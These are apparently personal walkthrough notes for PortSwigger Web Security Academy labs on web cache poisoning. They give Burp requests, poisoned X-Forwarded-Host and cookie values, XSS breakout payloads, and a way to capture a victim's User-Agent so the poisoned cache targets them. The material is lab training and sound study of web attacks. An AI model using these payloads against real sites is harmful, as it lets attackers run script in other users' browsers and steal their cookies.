

## Lab - 1: Web cache poisoning with an unkeyed header (P)

- This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

- send the `/` request to Burp Repeater
- send

```
GET /?abc=123 HTTP/1.1
X-Forwarded-Host: test.com
...
```

- Response is

```
Age: 0
X-Cache: miss
```

- send second time

```
Age: 5
X-Cache: hit
```

- and in response body, find the test.com

```html
<script
  type="text/javascript"
  src="//test.com/resources/js/tracking.js"
></script>
```

- go to the exploit server and in the File, fill with
  `/resources/js/tracking.js` and in the body `alert(document.domain)`

- change the `X-Forwarded-Host` to exploit server url without https

- send the resquest and see the response like above
- change the GET endpoint to `/` home page and send the request

---

## Lab - 2: Web cache poisoning with an unkeyed cookie (P)

- This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(1) in the visitor's browser.

- GET `/` home page twice
- for the first time,

```
GET / HTTP/1.1
Host: 0a03008104b91e94c0db0b3d00cd0022.web-security-academy.net

------------
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=xBmgEcBFBrjuSv2PWhjUycfgCt1nPzB2; Secure; HttpOnly; SameSite=None
Set-Cookie: fehost=prod-cache-01; Secure; HttpOnly
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
```

- for the second time,

```
GET / HTTP/1.1
Host: 0a03008104b91e94c0db0b3d00cd0022.web-security-academy.net
Cookie: session=xBmgEcBFBrjuSv2PWhjUycfgCt1nPzB2; fehost=prod-cache-01
---------------
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=30
Age: 25
X-Cache: hit
Connection: close
```

- and search the word `prod-cache-01` in the response content and found as below

```html
<script>
  data = {
    host: "0a03008104b91e94c0db0b3d00cd0022.web-security-academy.net",
    path: "/",
    frontend: "prod-cache-01",
  };
</script>
```

- send the request to Burp Repeater and change the `fehost` value to `hello` and `hello` value is reflected in the content

- change the `fehost` to `fehost=hello"}</script><script>alert(1)%3b</script>`
- OR `fehost=hello"-alert(1)-"abc`
- all the requests to that site will alert 1 as the content is

```html
<script>
    data = {
        "host":"0a03008104b91e94c0db0b3d00cd0022.web-security-academy.net",
        "path":"/",
        "frontend":"hello"}</script><script>alert(1);</script>"
    }
</script>
```

---

## Lab - 3: Web cache poisoning with multiple headers (P)

- This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

- Load the page and see the requests in Burp proxy
- try at the home page and nothing happens
- at `GET /resources/js/tracking.js HTTP/1.1`, first try with `X-Forwarded-Host` to some URL and nothing happens
- try with `X-Forwarded-Scheme` to `http` and found that 302 redirect
- then add `X-Forwarded-Host` to some URL and the response contains that URL in Location as `Location: https://test.com/resources/js/tracking.js`

  > Note - sometimes need to send requests more than 1 time to get X-Cache: miss

- then go to the exploit server and edit the File to `/resources/js/tracking.js` and Body to `alert(document.cookie)` and copy the URL of the exploit server `your-exploit-server-id.exploit-server.net`
- replace the `X-Forwarded-Host` to URL of the exploit server and send again until the response contain `X-Cache: miss`

---

## Lab - 4: Targeted web cache poisoning using an unknown header (P)

- This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

- in Burp Request box of home `/` > Right-click > Extensions > Param Miner > Guess Params > Guess Headers
- after scanning, in Issues box, can see `Cache poisoning`



- try with x-host

```
GET / HTTP/1.1
...
x-host: test.com
```

- in the response content,

```html
<script
  type="text/javascript"
  src="//test.com/resources/js/tracking.js"
></script>
```

- in the exploit server,
  - File -> /resources/js/tracking.js
  - Body -> alert(document.cookie)
- copy the exploit server URL and paste it in x-host header
- try to send request until X-Cache: hit
- make sure alert is working at the home page
- **to stimulate victim**
  - response contains like this
  ```
  HTTP/1.1 200 OK
  Content-Type: text/html; charset=utf-8
  Vary: User-Agent
  Cache-Control: max-age=30
  Age: 4
  X-Cache: hit
  ```
  - Vary header is used to specified that the `User-Agent` is part of the cache key
  - to target the specified victim, find the victims' `User-Agent`
  - in comment box of one of the posts, as it is allowed HTML element and write a comment like this
    ``
  - see in the access log of the exploit server and can see like this
  - `"GET /test HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.61 Safari/537.36"`
  - copy the `User-Agent` and paste in the request and send it until X-Cache is hit

---

## Lab - 5: Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria (E)

- This lab contains a DOM-based vulnerability that can be exploited as part of a web cache poisoning attack. A user visits the home page roughly once a minute. Note that the cache used by this lab has stricter criteria for deciding which responses are cacheable, so you will need to study the cache behavior closely. To solve the lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

- in Burp Request box of home `/` > Right-click > Extensions > Param Miner > Guess Params > Guess Headers
- after scanning, in Issues box, can see `Cache poisoning`
- `X-Forwarded-Host` is uncached
- test with this header at home directory

```
...
X-Forwarded-Host: test.com
```

- found the response as

```html
<script>
  data = {
    host: "test.com",
    path: "/",
  };
</script>
```

- and this data is used as

```html
<script>
  initGeoLocate("//" + data.host + "/resources/json/geolocate.json");
</script>
```

- if we search the response for `geolocate.json` file

```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Cache-Control: max-age=30
Age: 4
X-Cache: hit
Connection: close
Content-Length: 35

{
    "country": "United Kingdom"
}
```

- in the exploit server,

  - File -> `/resources/json/geolocate.json`
  - Head -> add `Access-Control-Allow-Origin: *` for CORS
  - Body -> `{"country": ""}`

- change the X-Forwarded-For header of the home page to exploit server URL and send the request until X-Cache is hit

---

## Lab - 6: Combining web cache poisoning vulnerabilities (E)

- This lab is susceptible to web cache poisoning, but only if you construct a complex exploit chain. A user visits the home page roughly once a minute and their language is set to English. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

> skip for now

---

## Lab - 7: Web cache poisoning via an unkeyed query string (P)

- This lab is vulnerable to web cache poisoning because the query string is unkeyed. A user regularly visits this site's home page using Chrome. To solve the lab, poison the home page with a response that executes alert(1) in the victim's browser.

```
GET /?test=qwerasdf HTTP/1.1
Host: 0aae006303779bc4c02356ec007a0068.web-security-academy.net
...
```

- found that

```html
<link
  rel="canonical"
  href="//0aae006303779bc4c02356ec007a0068.web-security-academy.net/?testdata=qwerasdf"
/>
```

- adding query string is reflected back and test with without query string and that query string still appears
- to solve the lab

```
GET /?test=1'/><script>alert(1)</script> HTTP/1.1
Host: 0aae006303779bc4c02356ec007a0068.web-security-academy.net
...
```

- will reflect back as

```html
<link
  rel="canonical"
  href="//0aae006303779bc4c02356ec007a0068.web-security-academy.net/?test=1"
/>
<script>
  alert(1);
</script>
'/>
```

---

## Lab - 8: Web cache poisoning via an unkeyed query parameter (P)

- This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome. To solve the lab, poison the cache with a response that executes alert(1) in the victim's browser.

- with param miner, "Guess GET parameters" to the home page and found that `utm_content` is supported by the application
- other steps as lab 7

---

## Lab - 9: Parameter cloaking (P)

- This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. There is also inconsistent parameter parsing between the cache and the back-end. A user regularly visits this site's home page using Chrome. To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes alert(1) in the victim's browser.
